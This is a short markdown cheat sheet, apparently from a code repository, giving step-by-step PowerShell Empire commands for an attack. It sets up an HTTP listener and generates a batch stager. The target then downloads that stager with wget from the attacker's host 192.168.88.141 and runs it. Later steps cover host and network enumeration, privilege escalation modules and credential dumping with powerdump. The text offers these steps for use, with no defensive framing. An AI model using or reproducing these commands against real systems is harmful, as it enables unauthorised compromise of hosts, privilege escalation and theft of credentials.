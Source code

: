 # Powershell Empire

## Setup 
` cd /opt/empire/setup` 
` sudo ./reset.sh `
` sudo ../empire.sh`

### Search for stuff 
`searchmodule privesc`

### Listeners
` listeners`
` uselistener http`
` uselistener meterpreter`
` info`
` usestager <tab><tab>`

### HTTP Listener 
` set DefaultDelay 1`
` set Port 8080`
` set Host http://192.168.88.141:8080`
` usestager windows/launcher_bat`
` set Listener http`
` generate`
` cd /tmp`
` python -m http.server`

### On Target 
` wget http://192.168.88.141:8000/launcher.bat -outfile launcher.bat`
` ls launcher.bat`
` <run it> `

### Back to empire 
` agents`
` interact 39GA2N8S`
` rename hacked`
` info`

### Enumeration 
` usemodule situational_awareness/host/winenum`
` shell ipconfig`
` shell whoami`
` usemodule situational_awareness/network/portscan `
` set Hosts 10.10.10.10`
 
### Priv Esc
` serachmodule powerup`
` usemodule privesc/powerup/allchecks`
` usemodule privesc/ask`
` set Listener http`
` agents`
` interact new`

### Creds
` usemodule credentials/powerdump*`

### Destroy 
` agents`
` kill all`
` listeners`
` kill http` 